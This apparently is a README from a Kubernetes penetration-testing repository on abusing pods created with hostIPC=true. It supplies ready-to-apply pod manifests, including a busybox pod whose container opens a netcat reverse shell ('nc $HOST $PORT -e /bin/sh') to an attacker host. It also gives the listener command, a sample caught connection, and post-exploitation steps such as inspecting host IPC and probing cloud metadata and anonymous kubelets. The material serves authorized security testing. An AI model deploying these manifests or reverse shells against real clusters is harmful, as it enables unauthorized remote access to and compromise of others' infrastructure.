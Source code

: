 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the `ipcs` command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semaphores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostipc
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
```
[hostipc-exec.yaml](hostipc-exec.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f hostipc-exec.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc/hostipc-exec.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostipc--revshell    
  restartPolicy: Always
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
[hostipc-revshell.yaml](hostipc-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostipc/hostipc-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# Reference(s): 
* https://opensource.com/article/20/1/inter-process-communication-linux
